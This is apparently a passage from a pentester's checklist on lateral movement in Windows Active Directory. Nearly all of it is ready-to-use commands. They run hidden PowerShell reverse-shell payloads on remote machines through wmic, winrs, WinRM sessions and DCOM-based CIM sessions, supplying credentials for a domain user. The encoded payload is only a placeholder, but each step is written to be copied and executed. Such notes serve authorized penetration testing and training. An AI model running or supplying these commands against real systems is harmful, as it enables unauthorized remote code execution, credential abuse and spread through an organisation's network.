 Run command prompt as user (E.g., "slightlysusadmin") on the Target Machine
```
runas /netonly /user:somedomain\slightlysusadmin cmd
```

References
https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/

# Active Directory Lateral Movement

## wmic
- [ ] Spawn a process (UTF16 encoded reverse shell payload) on a remote system using the wmic command-line utility on the Target Machine
```cmd
wmic /node:192.168.yyy.yyy /user:salesman /password:Sussy123! process call create 'powershell -nop -w hidden -e <encoded_reverse_shell_payload>'
```

## WinRS
- [ ] Using `winrs` to execute remote commands (UTF16 Encoded PowerShell reverse-shell payload) on the Target Machine
```cmd
winrs -r:files69 -u:salesman -p:Sussy123!  "powershell -nop -w hidden -e <encoded_reverse_shell_payload>"
```
- Domain user needs to be part of the Administrators or Remote Management Users group on the target host

## PowerShell Remote Session
- [ ] Establish a PowerShell Remote Session via WinRM on the Target Machine
```powershell
$username = 'salesman';
$password = 'Sussy365!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName 192.168.yyy.yyy -Credential $credential
```

## Common Information Model Session
- [ ] Create the PSCredential object in PowerShell on the Target Machine
```powershell
$username = 'salesman';
$password = 'Sussy365!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```

- [ ] Create a new CimSession with a UTF16 encoded reverse shell payload on the Target Machine
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.yyy.yyy -Credential $credential -SessionOption $Options
$Command = 'powershell -nop -w hidden -e <encoded_reverse_shell_payload>';
```
- New-CimSession to create a Common Information Model (CIM)
- DCOM as the protocol for the WMI session
- You can change $Command to run other things if needed E.g., calc:
	- `$command = 'calc';`
